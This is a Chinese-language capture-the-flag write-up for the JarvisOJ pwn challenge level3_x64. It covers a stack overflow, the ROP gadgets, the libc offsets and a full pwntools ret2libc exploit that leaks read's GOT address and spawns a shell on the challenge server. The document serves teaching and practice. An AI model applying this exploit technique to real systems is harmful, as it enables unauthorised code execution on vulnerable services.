 # Jarvisoj--pwn--level3&level3_x64

32位和64位思路一样，我们用64位来玩

checksec一下

    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


打开ida查看一波

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

进入vulnerable_function

```c++
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  write(1, "Input:\n", 7uLL);
  return read(0, &buf, 0x200uLL);
}
```

此处存在栈溢出。

## 利用思路

利用write函数把got表中read函数的地址暴露出来，配合libc文件求偏移值，然后把system和‘/bin/sh’的真实地址求出，利用read函数把system("/bin/sh") 写进栈的返回地址。

### 第一步 求read函数的地址

```
0000000000000080 buf             db ?
-000000000000007F                 db ? ; undefined
-000000000000007E                 db ? ; undefined
.....................................
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

可见我们要构造的payload = ’a' * (0x80 + 8) + rdi + p64(1) + rsi,r15 + read_got + p64(8) + write_plt + vulnerable_function

(32位  则不需要rdi rsi

​	payload = ’a' * (0x88 + 4) + write_plt + vulnerable_function + p32(1) + p32(read_got) + p32(4)

)

利用ROPgadget 找到 rdi 和 rsi r15的地址

```
root@kali:~/下载/level3_x64# ROPgadget --binary ./level3_x64 --only "pop|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret

Unique gadgets found: 11
```



### 第二步 利用libc偏移求出system 和 '/bin/sh' 的地址

libc相关函数和字符串地址

```
root@kali:~/下载/level3_x64# readelf -a ./libc-2.19.so |grep "read@@"
   534: 00000000000eb6a0    90 FUNC    WEAK   DEFAULT   12 __read@@GLIBC_2.2.5
   657: 00000000000794d0    27 FUNC    GLOBAL DEFAULT   12 _IO_file_read@@GLIBC_2.2.5
   883: 00000000000eb6a0    90 FUNC    WEAK   DEFAULT   12 read@@GLIBC_2.2.5
  1082: 00000000000ef610  1691 FUNC    GLOBAL DEFAULT   12 fts_read@@GLIBC_2.2.5
  1175: 00000000000fa710    31 FUNC    GLOBAL DEFAULT   12 eventfd_read@@GLIBC_2.7
  1574: 000000000006e7e0   320 FUNC    WEAK   DEFAULT   12 fread@@GLIBC_2.2.5
  2021: 00000000000cb540    96 FUNC    WEAK   DEFAULT   12 pread@@GLIBC_2.2.5
  2137: 000000000006e7e0   320 FUNC    GLOBAL DEFAULT   12 _IO_fread@@GLIBC_2.2.5
root@kali:~/下载/level3_x64# readelf -a ./libc-2.19.so |grep "system@@"
   577: 0000000000046590    45 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1337: 0000000000046590    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
root@kali:~/下载/level3_x64# strings -a -t x libc-2.19.so |grep "/bin/sh"
 17c8c3 /bin/sh
```

求出read的地址后，与libc文件里的read地址相减得出 偏移值

offset = read_adr - read_libc

system_adr = system_libc + offset

bin_adr = bin_sh_libc + offset

### 第三步 构造payload并写进栈

payload = ’a' * (0x80 + 8) + rdi + bin_adr  + system_adr + vulnerable_function

(32位

  payload = ’a' * (0x88 + 4) + system_adr + vulnerable_function + bin_adr

)

exp:

```
from pwn import *

r = remote("pwn2.jarvisoj.com",9883)
e = ELF("./level3_x64")

write_plt = hex(e.plt["write"])
read_got = hex(e.got["read"])
func = hex(e.symbols["vulnerable_function"])
rdi_ret = 0x4006b3
rsi_ret = 0x4006b1

payload1 = "A" * (0x80 + 8) + p64(rdi_ret) + p64(1) + p64(rsi_ret) + p64(int(read_got,16)) + p64(256) + p64(int(write_plt,16)) + p64(int(func,16))

r.recvline()
r.send(payload1)

readadr = u64(r.recv(8))
print(hex(readadr))

libc_read = 0x00000000000eb6a0
offset = readadr - libc_read
sysadr = offset + 0x046590
bshadr = offset + 0x17c8c3

payload2 = "A" * (0x80 + 8) + p64(rdi_ret) + p64(bshadr) + p64(sysadr) + p64(0xdeadbeef)

r.recvline()
r.send(payload2)
r.interactive()
```

